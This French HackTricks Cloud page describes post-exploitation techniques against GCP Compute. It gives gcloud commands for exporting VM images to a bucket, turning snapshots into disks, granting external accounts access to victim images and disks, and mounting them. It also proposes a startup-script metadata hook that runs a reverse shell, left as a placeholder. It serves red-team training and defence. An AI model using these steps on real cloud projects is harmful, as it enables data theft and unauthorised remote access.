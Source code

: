 # GCP - Post Exploitation Compute

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Équipe Rouge AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Équipe Rouge GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Compute

Pour plus d'informations sur Compute et VPC (Réseautage), consultez :

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporter et inspecter les images localement

Cela permettrait à un attaquant de **accéder aux données contenues dans des images déjà existantes** ou **de créer de nouvelles images de VMs en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Avant d'effectuer cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et certainement **de privilèges sur cloudbuild**, car c'est le **service** qui sera demandé pour effectuer l'exportation.\
De plus, pour que cela fonctionne, le SA codebuild et le SA compute ont besoin de permissions privilégiées.\
Le SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exporter et inspecter les instantanés et disques localement

Il n'est pas possible d'exporter directement des instantanés et des disques, mais il est possible de **transformer un instantané en disque, un disque en image** et, suivant la **section précédente**, d'exporter cette image pour l'inspecter localement.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecter une image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** depuis laquelle un attaquant **a créé une image,** il est possible d'accorder à un compte externe l'accès à l'image :
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
et ensuite créez une nouvelle VM à partir de cela :
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si vous ne pouviez pas donner l'accès à votre compte externe via l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire exécuter un reverse shell par les métadonnées** pour accéder à l'image en ajoutant le paramètre :
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecter un instantané/un disque en l'attachant à une VM

Avec l'objectif d'accéder aux **données stockées dans un disque ou un instantané, vous pourriez transformer l'instantané en disque, un disque en image et suivre les étapes précédentes.**

Ou vous pourriez **accorder l'accès à un compte externe** sur le disque (si le point de départ est un instantané, accordez l'accès sur l'instantané ou créez un disque à partir de celui-ci) :
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Attacher le disque** à une instance :
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montez le disque à l'intérieur de la VM :

1.  **SSH dans la VM** :

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiez le disque** : Une fois à l'intérieur de la VM, identifiez le nouveau disque en listant les périphériques de disque. En général, vous pouvez le trouver sous `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatez et montez le disque** (s'il s'agit d'un nouveau disque ou d'un disque brut) :
*   Créez un point de montage :

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montez le disque :

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si vous **ne pouvez pas donner accès à un projet externe** au snapshot ou au disque, vous devrez **effectuer ces actions à l'intérieur d'une instance dans le même projet que le snapshot/disque**.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
